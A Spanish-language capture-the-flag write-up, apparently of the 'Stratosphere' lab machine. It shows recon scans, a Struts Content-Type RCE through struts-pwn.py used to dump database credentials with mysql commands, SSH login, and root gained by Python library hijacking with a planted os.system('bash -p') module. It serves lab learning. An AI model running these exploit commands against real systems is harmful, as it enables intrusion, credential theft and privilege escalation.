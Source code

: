 -----
- Tags: #gobuster #searchsploit #action-file #mysql #mysqlshow #ssh #sudoers #pythonlibraryhijacking
------
# Resolución

## Reconocimiento

### OS

**LINUX**
```bash
ping -c 1 10.10.10.64
PING 10.10.10.64 (10.10.10.64) 56(84) bytes of data.
64 bytes from 10.10.10.64: icmp_seq=1 ttl=63 time=251 ms

--- 10.10.10.64 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 250.571/250.571/250.571/0.000 ms
```

-----
### OS

**LINUX**
```shell
ping -c 1 10.10.10.64
PING 10.10.10.64 (10.10.10.64) 56(84) bytes of data.
64 bytes from 10.10.10.64: icmp_seq=1 ttl=63 time=245 ms

--- 10.10.10.64 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 244.936/244.936/244.936/0.000 ms
```

### NMAP

**Puertos**
```js
# Nmap 7.94SVN scan initiated Mon Dec  2 19:24:57 2024 as: nmap -p- --open --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.10.64
Nmap scan report for 10.10.10.64
Host is up, received user-set (0.24s latency).
Scanned at 2024-12-02 19:24:57 -03 for 40s
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Dec  2 19:25:37 2024 -- 1 IP address (1 host up) scanned in 40.02 seconds
```

**Servicios**
```js

```

### GOBUSTER

Se detecto mediante el siguiente comando de **``gobuster``** una directorio ubicado en el servidor **http** llamado **``Monitoring``** y otro llamado **``manager``**.

- **``gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.64 -b=404 --add-slash -t 100``**

El directorio ``Monitoring`` contiene un panel de **Login** en donde se aprecia la utilización de archivos con extensión **``.action``** dentro del URL.

- ``http://10.10.10.64/Monitoring/example/Welcome.action``

-----
## Explotación

### Exploit en Github

Se realizó una búsqueda en la web de **Github** para encontrar algún Exploit que abuse de archivos con extensión **``.action``**. Se encontró uno ubicado en el siguiente [repositorio](https://github.com/mazen160/struts-pwn) el cual abusa del *``Content-Type``* para conseguir un **RCE**.

![[ST 1.png]]

Se intentó detectar si herramientas como **``curl``** y **``wget``** funcionaban pero no fue el caso.

----

Realizando un ``ls`` a través del Exploit, se detectó un archivo llamado *``db_connect``* el cual posee credenciales de lo que parece una **base de datos** al utilizar un **``cat``** en el.

```shell
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

Se realizó un **``which mysql``** para detectar si existía una base de datos *Mysql* dentro de la máquina víctima lo cual fue correcto.

Al no poseer una consola interactiva no se puede interactuar directamente con la base de datos ya que esta posee una interfaz interactiva, por lo tanto empleamos el uso de la herramienta **``mysqlshow``** la cual se encuentra instalada en el sistema.

Se proporcionan las credenciales recibidas en el archivo **``db_connect``**.

- **``./struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Login.action' -c "mysqlshow -uadmin -padmin"``**

![[ST 2.png]]

Se detectan **dos bases de datos**, ingreso a la que se llama **``users``** especificándolo en el **``mysqlshow``**.

-  **``./struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Login.action' -c "mysqlshow -uadmin -padmin users"``**

Luego se detecta una **tabla** llamada **``accounts``**, también se especifica en el comando.

- **``./struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Login.action' -c "mysqlshow -uadmin -padmin users accounts"``**

![[ST 3.png]]

Para listar el contenido de las columnas dejo de usar **``mysqlshow``** y empleo **``mysql``** pero esta vez con el parámetro **``-e``** que me permite colocar **Querys especificas**, esto se debe a que ya se la composición de la base de datos por completo.

- **``./struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Login.action' -c 'mysql -uadmin -padmin -e "select * from accounts" users'``**

![[ST 4.png]]

Haciendo **Fuzzing** de manera manual detecté que dichas credenciales pertenecen al usuario **``richard``** de la máquina víctima, por lo tanto como el **puerto 22** estaba abierto procedí a conectarme a través de el.

- **``ssh richard@10.10.10.64``**

--------
## Escalada de privilegios

### Python Library Hijacking

Al realizar un **``sudo -l``** detecté que podemos ejecutar un script de python llamado **``test.py``** con el binario ubicado en **``/usr/bin/python*``** como usuario ``root``, por lo tanto realicé lo siguiente.

Encontramos un archivo **``test.py``** en el directorio ``/home`` de ``richard``, noté que dicho script importa la librería **``hashlib.py``** por lo tanto aprovechándome de que **Python** por defecto **en primer instancia busca la librería en el directorio actual** y luego continúa con el PATH configurado procedemos a crear un archivo llamado **``hashlib.py``** en el directorio actual, luego le colocamos el siguiente código.

```python
import os
os.system("bash -p")
```

Por lo tanto una vez ejecutemos el script aprovechándonos del permiso a nivel **sudoers**, conseguiremos acceso como ``root``.

- **``sudo -u root /usr/bin/python /home/richard/test.py``**

![[ST 5.png]]

Por lo tanto de esta forma **completamos** la máquina **``Stratosphere``**.